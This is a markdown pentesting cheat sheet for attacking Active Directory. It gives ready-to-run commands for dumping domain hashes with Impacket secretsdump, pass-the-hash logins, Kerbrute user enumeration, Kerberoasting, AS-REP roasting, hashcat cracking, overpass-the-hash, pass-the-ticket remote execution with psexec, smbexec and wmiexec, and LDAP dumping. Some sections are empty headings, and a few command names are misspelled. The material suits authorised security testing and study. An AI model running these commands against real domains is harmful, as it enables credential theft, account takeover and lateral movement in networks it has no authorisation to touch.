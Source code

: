 # Active Directory Enumeration  
## NTLM Authentication
### Impacket Scripts 
If you have creds for the backup account for domain controller: can dump all hashes    

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't neeed to be cracked)    

    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]  

## Kerberos (Port 88)   
Tools: [Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   
[Messing With Kerberos Using Rubeus](https://endark.gitbook.io/kb/windows/lab-attacks/messing-with-kerberos-using-rubeus) 
[Kerberos Tickets](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)   
[Kerberos Cheat Sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)  
[How Kerberos Works](https://www.tarlogic.com/blog/how-kerberos-works/)  


    ./kerbrute userenum userlist.txt -d [name] --dc [name]     
    
## Kerberos Attacks 

Kerbrute Enumeration (No domain access needed) 

Kerberoasting (Access as any user needed) 

AS-REP Roasting with Rubeus and Impacket (Access as any user needed)  

Overpass the Hash / Pass the Key (PTK)  

Pass the Ticket (Access to user on the domain needed)  

Golden/Silver Ticket Attacks (Domain admin needed / Service hash needed) 

Skeleton key attacks using mimikatz (Domain Admin needed) 

### Kerbrute Enumeration 
No domain access needed 

Kerbrute: https://github.com/ropnop/kerbrute
/usr/share/wordlists/ADUsers.txt

### Kerberoasting  
Check for Kerberoasting with Impacket -> SPNs 

    GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

Kerberoasting with Impacket

    python3 GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>  
    sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <ip> -request
     
 Kerberoasting with Rubeus (install on Windows host in domain) 
 
    rubeus.exe kerberoast 
 
Crack passwords with hashcat 

    hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/ADPass.txt
    13100: kerberos 5, 0: straight attack mode

### AS-REP Roasting with Rubeus and Impacket
Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
     

ASREPRoast with Impacket:

    impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
    impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

ASREP Roast with Rubeus:

### Golden / Silver Ticket Attacks: 

### Overpass The Hash/Pass The Key (PTK):
Impacket 

    python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
    python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
    python3 getTGT.py <domain_name>/<user_name>:[password]

### Pass the Ticket 
Using TGT key to execute remote commands from the following impacket scripts:

    python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

### Skeleton Key Attacks using Mimikatz 

## LDAP (Port 636)
Anonymous Credential LDAP Dumping: 

    ldapsearch -LLL -x -H ldap://<domain fqdn> -b '' -s base '(objectclass=*)'

Impacket GetADUsers.py (Must have valid credentials)

    GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

    /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

    python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

    python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
    
## Other Exploits
[Print Nightmare Walkthrough](https://themayor.notion.site/341cf3705cc64752b466046584de45b8?v=4f2173ad749249b293a89ab5391805ec&p=ef69c17e82c5471fb4648ccabbf5c937) 
